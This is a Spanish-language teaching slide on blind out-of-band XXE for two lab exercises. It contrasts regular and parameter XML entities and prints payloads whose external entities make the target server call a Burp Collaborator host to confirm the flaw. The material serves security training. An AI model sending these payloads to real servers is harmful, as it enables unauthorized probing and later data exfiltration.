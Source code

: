 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{XXE Blind Out-of-Band --- Técnica Completa (Labs 100-101)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Cuándo usar OOB?
  \item La app no devuelve la respuesta del parser $\rightarrow$ no vemos el contenido del fichero.
  \item Necesitamos que el servidor haga una petición SALIENTE con los datos.
  \item Herramientas: Burp Collaborator, interactsh, canarytokens.org.
  \item Lab 100 --- Confirmar la vuln con callback DNS/HTTP
  \item \cmd{\textless{}!DOCTYPE foo [\textless{}!ENTITY xxe SYSTEM 'http://BURP-COLLABORATOR.net'\textgreater{}]\textgreater{}}
  \item \cmd{\textless{}stockCheck\textgreater{}\textless{}productId\textgreater{}\&xxe;\textless{}/productId\textgreater{}\textless{}/stockCheck\textgreater{}}
  \item $\rightarrow$ Si el Collaborator recibe callback DNS o HTTP $\rightarrow$ XXE confirmado.
  \item Lab 101 --- Entidades paramétricas XML (\%)
  \item \cmd{\textless{}!DOCTYPE foo [}
  \item \cmd{\textless{}!ENTITY \% xxe SYSTEM 'http://BURP-COLLABORATOR.net'\textgreater{}}
  \item \cmd{\%xxe;}
  \item \cmd{]\textgreater{}}
  \item $\rightarrow$ Entidades \% (paramétricas) se usan DENTRO del DTD, no en el contenido.
  \item $\rightarrow$ Útiles cuando las entidades regulares (\&xxe;) no son procesadas.
  \item Diferencia \&entidad; vs \%entidad;
  \item Regular (\&nombre;) $\rightarrow$ en el cuerpo del documento XML.
  \item Paramétrica (\%nombre;) $\rightarrow$ solo dentro del DTD. Permiten componer payloads complejos.
  \item Confirmar OOB antes de intentar exfiltración --- ahorra tiempo.
  \end{itemize}
\end{frame}
\end{document}

